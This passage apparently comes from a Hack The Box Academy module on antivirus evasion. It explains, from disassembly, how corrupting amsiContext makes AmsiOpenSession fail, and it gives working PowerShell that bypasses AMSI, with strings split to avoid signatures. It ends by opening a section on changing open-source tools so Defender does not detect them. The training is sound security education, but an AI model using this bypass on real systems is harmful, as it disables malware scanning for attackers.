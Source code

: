 ![image](YHIRPVU68xJZ.png)

Note: For the purposes of this module, it is not strictly necessary to understand how `IDA` works. However, students who are interesting in gaining a deeper understanding are recommended to take a look at the [Introduction to Malware Analysis](https://academy.hackthebox.com/module/227) module.

In `AmsiOpenSession`, we can see that if the first four bytes of `amsiContext` ( `rcx`) are not equal to `"AMSI"`, then the function will return `0x80070057`.

![image](PtGuVCYtmWOc.png)

Looking up this value, we can see that `0x80070057` is one of the many error code HRESULT values. This one specifically means `"One or more arguments are invalid"`.

![image](3Dk9BUVnEddc.png)

Since this would mean `AmsiOpenSession` failed, we know that `amsiInitFailed` would be then set to `true`, which we already know leads to `AMSI` being bypassed.

We can write the following `PowerShell` code to carry out this attack.

```powershell
$utils = [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils');
$context = $utils.GetField('amsi'+'Context','NonPublic,Static');
$session = $utils.GetField('amsi'+'Session','NonPublic,Static');

$marshal = [System.Runtime.InteropServices.Marshal];
$newContext = $marshal::AllocHGlobal(4);

$context.SetValue($null,[IntPtr]$newContext);
$session.SetValue($null,$null);

```

First a 4-byte large buffer is allocated and assigned to `amsiContext`. Next, `amsiSession` is set to `null`, to ensure the necessary `if-branch` is taken.

![image](gC1alfedOvIp.png)

Downloading and executing this script results in `AMSI` being bypassed as expected.

![image](llqfo57gxhbP.png)


# Open-Source Software

## Introduction

As mentioned at the end of the the `Dynamic Analysis` section, it is oftentimes the case that developing custom tooling is not possible due to time and/or budget constraints, and so it is necessary to rely on open-source software. Naturally, such tools are well-known to antivirus solution providers, and so they develop signatures to detect them. In this section, we will look at two different ways to modify open-source software so that `Microsoft Defender Antivirus` will not detect them.
